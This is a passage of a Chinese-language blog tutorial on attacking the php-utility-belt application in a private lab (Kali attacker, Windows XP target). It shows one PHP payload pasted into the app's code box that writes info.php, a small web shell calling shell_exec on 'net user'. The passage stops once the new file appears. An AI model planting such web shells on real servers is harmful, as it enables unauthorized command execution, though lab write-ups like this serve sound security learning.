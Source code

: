 ```yaml
---
layout: post
category: binghe-code-hack
title: Metasploit渗透php-utility-belt程序
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: Metasploit渗透php-utility-belt程序
lock: need
---
```


# Metasploit渗透php-utility-belt程序

攻击机 kali 192.168.109.137

靶机：Win XP 192.168.109.141

应用程序 php-utility-belt (可以到链接：https://download.csdn.net/download/l1028386804/10923054 下载)

## 部署php-utility-belt

由于php-utility-belt是php程序，所以我们需要安装php环境,这里我为了简单直接安装了wamp环境。

将php-utility-belt解压后放在wamp的www目录下，

![img](https://img-blog.csdnimg.cn/20190117160010746.png)

同时在浏览器中访问链接：http://192.168.109.141/php-utility-belt/

如下图所示：

![img](https://img-blog.csdnimg.cn/20190117160027242.png)

显示这个页面就证明我们部署成功了。

## 构造并提交攻击脚本

我们文本框中输入如下代码：

```
fwrite(fopen('info.php','w'), '<?php $a = "net user"; echo shell_exec($a);?>');
```

并点击Run按钮

![img](https://img-blog.csdnimg.cn/20190117160107698.png)

## 查看php-utility-belt下的文件

此时，我们发现php-utility-belt下多了一个info.php文件

![img](https://img-blog.csdnimg.cn/20190117160129303.png)
